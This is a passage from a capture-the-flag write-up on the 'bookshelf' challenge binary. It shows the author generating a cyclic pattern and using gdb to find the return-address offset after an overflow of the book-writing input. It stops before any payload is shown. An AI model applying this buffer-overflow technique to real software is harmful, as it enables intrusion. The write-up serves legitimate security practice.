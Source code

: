 Phew! Finally a seg fault. This is again a good sign.

Let's open the program in gdb and find the offset for RIP.

I will use `cyclic` to generate the pattern

```console
$ cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
$ 
```

```
$ gdb bookshelf -q
Reading symbols from bookshelf...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.archlinux.org>
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
(No debugging symbols found in bookshelf)
gdb-peda$ b * adminBook +114
Breakpoint 1 at 0x401634
gdb-peda$ r
Starting program: /home/vulnx/CTFs/Patriot/bookshelf/bookshelf 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Welcome to the Book Shelf...         _______ 
                                    /      /,
BookShelf Management System        /      // 
Version 1.0                       /______//  
                                 (______(/   
Grab yourself a coffee and enjoy some books!

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (0)
4) Check out
 >> 1
Always great to see aspiring authors!
Is this book an audiobook? (y/N) >> y
Please write your book (40 chars max) >> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Book saved!

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (65)
4) Check out
 >> Invalid option!

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (65)
4) Check out
 >> Invalid option!

...

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (65)
4) Check out
 >> 3

```